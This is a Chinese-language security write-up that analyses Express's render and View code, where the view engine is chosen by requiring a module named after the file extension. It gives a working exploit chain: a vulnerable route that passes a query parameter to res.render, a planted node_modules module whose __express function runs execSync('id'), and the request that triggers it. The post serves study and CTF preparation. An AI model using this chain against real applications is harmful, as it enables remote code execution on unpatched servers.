




谈 Express engine 处理引擎的一个 trick

- - -

## 谈 Express engine 处理引擎的一个 trick

### Background

在关注 ejs 解析的时候发现 express 对 render 的处理有点意思，所以简单分析了下

### 0x01 流程链简析

当用 express 的解析模板引擎的时候，即使默认使用了 ejs，但是也会有引擎修改的工程，大概调用链如下

render()->View()->tryRender->this.engine()

### 0x02 漏洞详情分析

在 render 函数代码里

```plain
app.render = function render(name, options, callback) {
  var cache = this.cache;
  var done = callback;
  var engines = this.engines;
  var opts = options;
  var renderOptions = {};
  var view;

  // support callback function as second arg
  if (typeof options === 'function') {
    done = options;
    opts = {};
  }

  // merge app.locals
  merge(renderOptions, this.locals);

  // merge options._locals
  if (opts._locals) {
    merge(renderOptions, opts._locals);
  }

  // merge options
  merge(renderOptions, opts);

  // set .cache unless explicitly provided
  if (renderOptions.cache == null) {
    renderOptions.cache = this.enabled('view cache');
  }

  // primed cache
  if (renderOptions.cache) {
    view = cache[name];
  }

  // view
  if (!view) {
    var View = this.get('view');

    view = new View(name, {
      defaultEngine: this.get('view engine'),
      root: this.get('views'),
      engines: engines
    });

    if (!view.path) {
      var dirs = Array.isArray(view.root) && view.root.length > 1
        ? 'directories "' + view.root.slice(0, -1).join('", "') + '" or "' + view.root[view.root.length - 1] + '"'
        : 'directory "' + view.root + '"'
      var err = new Error('Failed to lookup view "' + name + '" in views ' + dirs);
      err.view = view;
      return done(err);
    }

    // prime the cache
    if (renderOptions.cache) {
      cache[name] = view;
    }
  }

  // render
  tryRender(view, renderOptions, done);
};

/**
 * Listen for connections.
 *
 * A node `http.Server` is returned, with this
 * application (which is a `Function`) as its
 * callback. If you wish to create both an HTTP
 * and HTTPS server you may do so with the "http"
 * and "https" modules as shown here:
 *
 *    var http = require('http')
 *      , https = require('https')
 *      , express = require('express')
 *      , app = express();
 *
 *    http.createServer(app).listen(80);
 *    https.createServer({ ... }, app).listen(443);
 *
 * @return {http.Server}
 * @public
 */

app.listen = function listen() {
  var server = http.createServer(this);
  return server.listen.apply(server, arguments);
};

/**
 * Log error using console.error.
 *
 * @param {Error} err
 * @private
 */

function logerror(err) {
  /* istanbul ignore next */
  if (this.get('env') !== 'test') console.error(err.stack || err.toString());
}

/**
 * Try rendering a view.
 * @private
 */

function tryRender(view, options, callback) {
  try {
    view.render(options, callback);
  } catch (err) {
    callback(err);
  }
```

关键代码在这一段

```plain
if (!view) {
    var View = this.get('view');

    view = new View(name, {
      defaultEngine: this.get('view engine'),
      root: this.get('views'),
      engines: engines
    });
```

view 在没 cache 的情况下 view 变量默认是空的，就会在此处调用一个 View()，而且当这个函数结束的时候，他会继续走一个 tryRender 函数

而在 View 函数中

```plain
function View(name, options) {
  var opts = options || {};

  this.defaultEngine = opts.defaultEngine;
  this.ext = extname(name);
  this.name = name;
  this.root = opts.root;

  if (!this.ext && !this.defaultEngine) {
    throw new Error('No default engine was specified and no extension was provided.');
  }

  var fileName = name;

  if (!this.ext) {
    // get extension from default engine name
    this.ext = this.defaultEngine[0] !== '.'
      ? '.' + this.defaultEngine
      : this.defaultEngine;

    fileName += this.ext;
  }
console.log(this.ext)//debug data
  if (!opts.engines[this.ext]) {
    // load engine
    var mod = this.ext.slice(1)
    debug('require "%s"', mod)

    // default engine export
    var fn = require(mod).__express

    if (typeof fn !== 'function') {
      throw new Error('Module "' + mod + '" does not provide a view engine.')
    }

    opts.engines[this.ext] = fn
  }

  // store loaded engine
  this.engine = opts.engines[this.ext];

  // lookup path
  this.path = this.lookup(fileName);
}
```

可以看到 opts.engines\[this.ext\] 如果不为空 他会取 this.ext 的值然后来调用 require 函数

有意思的地方在于

```plain
var fn = require(mod).__express

    if (typeof fn !== 'function') {
      throw new Error('Module "' + mod + '" does not provide a view engine.')
    }

    opts.engines[this.ext] = fn
```

在这里函数 **express 被导入然后定义在 opts.engines\[this.ext\] 也就是说现在 engine 里有\`**express\`函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201163855-5603c7dc-c0dd-1.png)

了解了下这个函数，那其实只要可控我们就能 rce 了

这里主要就是我们要看看他是如何取到这个 ext 的

我测试的时候发型现他对后缀没有处理

```plain
> extname('1.ttt')
'.ttt'
```

继续往下走，当他继续走 tryRender 他会经过 view.render(options, callback)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201163903-5a61b29e-c0dd-1.png)

然后这个 this.engine 函数就可以被执行了

### 0x03 漏洞利用

其实早在很多 CTF 中，我就关注过这个引擎解析，2021 的 LineCTF 里提到

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201163910-5eb1460c-c0dd-1.png)

a.ejs.b.c.hbs 会 require hbs 进来 也就是说如果我们在 views 里面有其他类型的文件 比如 xxx.ttt 他经过 render 就会执行代码，但其实这个还有另一种利用方法

我们可以写一个测试代码，大致如下

```plain
app.set('view engine', 'ejs');
app.get('/', (req,res) => {
    const page = req.query.filename
    res.render(page);
})
```

当对 filename 传参为不附加后缀的。他会默认使用我们的 ejs 解析，也就是说

127.0.0.1/?filename=1

127.0.0.1/?filename=1.ejs是等价的

当我们键入一个自定义后缀 123.ttt 时候，会像前文提到的这样处理 ttt

```plain
var mod = this.ext.slice(1)
debug('require "%s"', mod)

// default engine export
var fn = require(mod).__express
```

如果我们有一个文件上传位点可控，能把文件夹传到 node\_modules 下，其实就可以进行\_\_express 函数的使用了

首先我在 node\_modules 下建立一个 ttt 文件夹，把文件夹里面添加一个 index.js 内容如下

```plain
exports.__express = function() {
    console.log(require('child_process').execSync("id").toString());
}
```

然后键入任意文件名，后缀为 ttt 即可调用

当我们访问 127.0.0.1/?filename=1.ttt 时候进行 debug 会发现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201163919-64586540-c0dd-1.png)

他的 engines 内容是我们键入的代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240201163925-67f18862-c0dd-1.png)

而对照虽然 default 是 ejs，但我们还是在 engine 里进行替换了我们要执行的函数

### 0x04 总结

虽然在较高版本，这个缺陷已经被修复了，而且修复方式有很多种，最好的就是检测后缀，但这个思路是比较有趣的，而且很有可能会被出在一些 ctf 比赛上
